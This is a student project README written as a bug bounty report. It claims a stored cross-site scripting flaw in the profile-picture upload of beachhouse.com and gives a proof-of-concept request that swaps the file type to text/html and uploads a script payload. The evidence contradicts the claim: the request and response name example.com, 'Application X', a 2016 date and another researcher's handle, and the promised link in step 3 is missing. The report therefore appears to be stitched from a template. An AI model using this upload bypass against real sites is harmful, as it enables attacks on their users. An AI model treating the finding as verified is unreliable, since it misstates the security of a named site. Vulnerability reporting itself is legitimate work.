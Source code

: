 # Major Project - Bug hunting on any target of openbugbounty
## Name - Varchasva Khare
### Team Members - [Ishan Amrit](https://github.com/IshanAmrit28), [Navya Pillai]()

## Issue Description
- Target website we got on [openbugbounty](openbugbounty.org) - [beachhouse.com](beachhouse.com)
- Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. 

## Issue Identified
- The consultant identified that the update profile picture is vulnerable to cross site scripting, it is possible to upload an image with a MIME type of `text/html` this is then stored on the user's profile as an XSS payload, the outline below demonstrates the steps taken to exploit and reproduce.

## Risk Breakdown
- Risk: **High**
 
- Difficulty to Exploit: **Medium**
 
- CVSS2 Score: [**7.9**](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:S/C:C/I:C/A:N))

## Steps to Reproduce
The following steps indicate a proof of concept outlined in three(3) steps to reproduce and execute the issue.

**Step 1:**
Navigate to [https://www.beachhouse.com/portal/reg.php](https://www.beachhouse.com/portal/reg.php) and select edit as shown in screenshot attached below.

<img src="https://github.com/varchasvakhare2022/Corizo-Internship-Projects/blob/master/images/s1.png">

**Step 2:**
Modify the profile image request with a local proxy, in this case the consultant is using Burp Suite. Change the Content type from image to text/html as shown in the post request:

    POST /file/upload/ HTTP/1.1
    Host: example.com
    ---snip----
    
    -----------------------------900627130554
    Content-Disposition: form-data; name="stored_XSS.jpg"; filename="stored_XSS.jpg"
    Content-Type: text/html
    
    <script>alert('ZephrFish')</script>
    -----------------------------900627130554

When this is sent, the following response is shown:

    HTTP/1.1 200 OK
    Date: Sat, 13 Aug 2016 14:31:44 GMT
    ---snip---
    
    {"url": "https://example.com/56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg?Expires=1465669904&Signature=dNtl1PzWV&Key-Pair-Id=APKAJQWLJPIV25LBZGAQ", "pk": "56fc3b92159006271305543ef45a04452e8e45ce4/stored_XSS.jpg", "success": true}

**Step 3:**
The file has been uploaded to Application X and is hyperlinked to from the profile page as shown in step 3.jpg. By simply following the link to the image which in this case is:

The payload is executed, thus this demonstrates the issue is stored cross site scripting.

## Affected Demographic
This issue will affect all users on the site who view the profile of the attacker, when the image is rendered the payload is executed instead of a profile image. Additionally when the malicious user posts anything on the forums the payload will execute.

## References
For more information on remediation steps check out reference [[2]](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)).

 - [1] [OWASP XSS Explained](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [2] [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
